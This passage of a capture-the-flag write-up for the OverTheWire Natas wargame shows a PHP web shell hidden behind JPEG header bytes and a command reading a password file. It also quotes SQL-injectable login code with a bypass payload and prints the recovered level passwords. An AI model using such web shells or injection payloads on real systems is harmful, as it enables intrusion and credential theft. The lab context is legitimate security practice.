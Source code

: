 ```
ÿØÿà <?php system($_GET['cmd']); ?>
```
Cat out the password as above
```
http://natas13.natas.labs.overthewire.org/upload/yf0pu7xdo5.php?cmd=cat%20/etc/natas_webpass/natas14
����JFIF��	Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

## Level 14

Here we go, our first SQL Injection. We have a login form asking for a username and password.

Inspecting the source gives
```
<? 
if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas14', '<censored>'); 
    mysql_select_db('natas14', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { 
            echo "Successful login! The password for natas15 is <censored><br>"; 
    } else { 
            echo "Access denied!<br>"; 
    } 
    mysql_close($link); 
} else { 
?>
```
The two interesting bits are if we add a `?debug` to the post request we get some debugging information and we are given the structure of the SQL Query composed from our input

`"SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""`

Basically it adds " around our input from the fields and checks them against the database.

To bypass we make our username
```
" or 1 = 1 --
```
Which closes out the open " added to our input, has a boolen condition that always validates to true and then comments out the rest of the request, logging us in successfully.
```
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

## Natas 15
